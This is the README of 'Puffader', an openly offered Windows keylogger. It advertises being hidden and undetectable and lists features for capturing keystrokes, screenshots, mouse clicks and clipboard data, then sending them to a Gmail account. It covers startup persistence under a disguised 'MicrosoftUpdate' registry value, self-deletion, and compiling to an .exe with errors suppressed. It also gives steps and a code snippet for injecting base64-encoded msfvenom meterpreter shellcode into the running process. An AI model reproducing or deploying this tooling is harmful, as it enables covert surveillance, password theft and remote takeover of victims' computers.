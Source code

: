 [![Build status](https://ci.appveyor.com/api/projects/status/5tc6085mmmw6rym8?svg=true)](https://ci.appveyor.com/project/xp4xbox/puffader)
# Puffader
Puffader is an opensource, hidden and undetectable keylogger for windows written in Python 2.7 which can also capture screenshots, mouse window clicks and clipboard data.

## Installation
Puffader Requires:
* [Python 2.7](https://www.python.org/downloads)
* [Pyhook](https://sourceforge.net/projects/pyhook/files/pyhook/1.5.1/)
* [Pywin32](https://sourceforge.net/projects/pywin32/files/pywin32/)
* [PyScreeze](https://pypi.org/project/PyScreeze/)
* [Py2Exe](https://sourceforge.net/projects/py2exe/files/py2exe/0.6.9/)

1. Download the repository using github or git eg.```git clone https://github.com/xp4xbox/Puffader```
2. Install the modules by running `python -m pip install requirements.txt`

Please refer to the [wiki](https://github.com/xp4xbox/Puffader/wiki/Installing-Prerequisites) for more information on installing prerequisites.

## Features
Currently Puffader has several features such as:
* Ability to send logs to any gmail account.
* Ability to capture screenshots
* Ability to store logs locally
* Ability to configure log size before sending
* Ability to send logs at timed intervals
* Ability to stop the program via ctrl-rshift-lshift-h.
* Ability to log special characters.
* Ability to embed an undetectable meterpreter shell
* Ability to capture window mouse clicks
* Ability to run at startup
* Ability to capture clipboard data
* Ability to melt file on execution
* Checking for multiple instances
* And more...

## Quick Usage

1. Open file with idle or any other editor.
2. Modifiy lines `18-37` for your personal preference: eg.
```
strEmailAc = "email@gmail.com"
strEmailPass = "pass"

intCharPerSend = 1000

blnUseTime = "False"
intTimePerSend = 120

blnStoreLocal = "True"
strLogFile = "c:/temp/test.txt"

blnScrShot = "True"
strScrDir = "c:/temp"
intScrTime = 120

blnLogClick = "True"
blnAddToStartup = "False"

blnLogClipboard = "False"
blnMelt = "False"
```
> NOTE: For `strScrDir`, be sure to leave out the last `/`.

#### You can only choose one method for storing/sending logs, default is by email.

#### If you plan to send messages via email, be sure to [allow access for less secure apps](https://myaccount.google.com/lesssecureapps) in your gmail account.

#### If you ever set the program to run at startup and want to remove it, open regedit and navigate to `HKCU\Software\Microsoft\Windows\CurrentVersion\Run` and delete the value `MicrosoftUpdate`.

For more information please refer to the [wiki](https://github.com/xp4xbox/Puffader/wiki/Usage).

### Compiling Program To .exe

#### Py2Exe
1. **(Optional)** Add this code to Puffader.py `sys.stderr = None` after the import statements to ensure no errors will show.
3. Make sure the program is called Puffader.py in your python folder as well.
4. Run `python setup.py`
5. You should see the .exe in the dist folder.

Or refer to the [wiki](https://github.com/xp4xbox/Puffader/wiki/Compiling-To-.exe) for more information.

## Adding Meterpreter Plugin

1. Generate raw shellcode using msfvenom (eg. xr8\x02...).
2. Encode the shellcode to base64 by using [this](https://github.com/xp4xbox/Puffader/blob/master/Meterpreter_Plugin/base64encoder.py).
3. Move the [code_injector module](https://github.com/xp4xbox/Puffader/blob/master/Meterpreter_Plugin/code_injector.py) to same dir as the program.
4. Paste in this code after the function to prevent multiple instances as [here](https://github.com/xp4xbox/Puffader/blob/master/Meterpreter_Plugin/Puffader_Code_Addition.py). Setting b64shellcode to be your encrypted shellcode.
```
import code_injector, base64
# base64 shellcode
b64shellcode = ""
shellcode = base64.b64decode(b64shellcode)  # decrypt shellcode
pid = os.getpid()  # get current pid

code_injector.InjectShellCode(pid, shellcode)  # inject the shellcode into the program
```
5. Build program with Py2Exe.

> Check my other project [PyEvade](https://github.com/xp4xbox/PyEvade) for more info on how this works.

## Help

If you need any help at all, feel free to post a "help" issue.

## Contributing

Contributing is encouraged and will help make a better program. Please refer to [this](https://gist.github.com/MarcDiethelm/7303312) before contributing.

## Disclaimer

This program must be used for legal purposes! I am not responsible for anything you do with it.

## License
[License](https://github.com/xp4xbox/Puffader/blob/master/LICENSE)
